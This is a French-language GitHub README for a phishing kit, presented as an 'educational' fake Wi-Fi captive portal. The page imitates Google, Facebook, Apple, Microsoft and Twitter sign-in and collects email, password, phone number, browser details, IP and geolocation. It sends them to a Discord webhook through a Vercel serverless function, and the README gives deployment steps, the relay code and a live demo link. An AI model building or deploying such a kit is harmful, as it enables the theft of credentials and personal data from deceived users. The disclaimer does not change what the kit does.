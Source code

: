 # 🌐 Portail Wi-Fi – Démo Éducative

Ce projet est une **fausse page de connexion pour un portail Wi-Fi** à but **strictement pédagogique**.  
Il illustre comment collecter certaines données côté client (navigateur, IP, géolocalisation) et les transmettre à un webhook Discord.

> ⚠️ **Attention** : aucune authentification réelle n’est effectuée. Usage uniquement éducatif.

---

## ✨ Fonctionnalités principales

- Interface moderne, épurée et responsive adaptée à un portail Wi-Fi  
- Collecte côté client :  
  - Adresse e-mail, mot de passe (fictifs) et numéro de téléphone  
  - Informations navigateur (user-agent, langue, fuseau horaire, résolution écran…)  
  - IP publique et géolocalisation approximative via [ipapi.co](https://ipapi.co/json)  
- Simulation de connexion via plusieurs méthodes (Google, Facebook, Apple, Microsoft, Twitter)  
- Transmission sécurisée des données via un webhook Discord configuré en variable d’environnement  
- Déploiement simple et automatisé avec [Vercel](https://vercel.com)

---

## 🛠️ Technologies utilisées

- HTML, CSS et JavaScript natifs (sans framework)  
- API Web natives (`fetch`, `navigator`)  
- Service tiers [ipapi.co](https://ipapi.co/json) pour récupération IP/géolocalisation  
- Backend minimal via API Serverless sur Vercel pour sécuriser le webhook

---

## 🚀 Déploiement sur Vercel

### 1. Cloner ce dépôt

```bash
git clone https://github.com/PariaHRZ/gcloud-login.git
cd gcloud-login
````

### 2. Déployer sur Vercel

* Connecte-toi sur [vercel.com](https://vercel.com)
* Connecte ton compte GitHub et importe ce projet
* Dans la section **Environment Variables**, ajoute la variable suivante :

| Nom                   | Valeur (exemple)                            |
| --------------------- | ------------------------------------------- |
| `DISCORD_WEBHOOK_URL` | `https://discord.com/api/webhooks/xxxxxxxx` |

* Lancer le déploiement
* L’application sera accessible via une URL du type :
  `https://ton-projet.vercel.app`

---

## 📦 Exécution locale

```bash
git clone https://github.com/PariaHRZ/gcloud-login.git
cd gcloud-login
open index.html  # ou double-clique simplement sur le fichier
```

> ⚠️ Le webhook Discord ne fonctionnera pas en local sans backend.

---

## 🔒 Sécurité du webhook

Le webhook Discord est **stocké uniquement dans une variable d’environnement côté serveur** (`DISCORD_WEBHOOK_URL`).
Il **n’apparaît jamais dans le code client**, ce qui évite toute fuite d’information.

L’envoi des données est fait via une fonction API Vercel serverless sécurisée.

---

## 📁 Exemple de fonction API (fichier `/api/webhook.js`)

```js
export default async function handler(req, res) {
  const webhook = process.env.DISCORD_WEBHOOK_URL;
  if (!webhook) return res.status(500).send("Webhook manquant");

  await fetch(webhook, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(req.body),
  });

  res.status(200).send("OK");
}
```

### Côté client (JS)

```js
fetch("/api/webhook", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ content: message })
});
```

---

## 📄 Licence

Ce projet est sous licence [MIT](https://github.com/PariaHRZ/gcloud-login/blob/main/LICENSE), libre d’adaptation pour usage pédagogique uniquement.

---

## 🔗 Démo en ligne

[https://gcloud-login-git-main-pariahrzs-projects.vercel.app/](https://gcloud-login-git-main-pariahrzs-projects.vercel.app/)

---

<img src="https://github.com/user-attachments/assets/632e655f-7d6c-43ad-b329-03e0f32c0be0" alt="Capture d'écran portail Wi-Fi" width="450" />
```
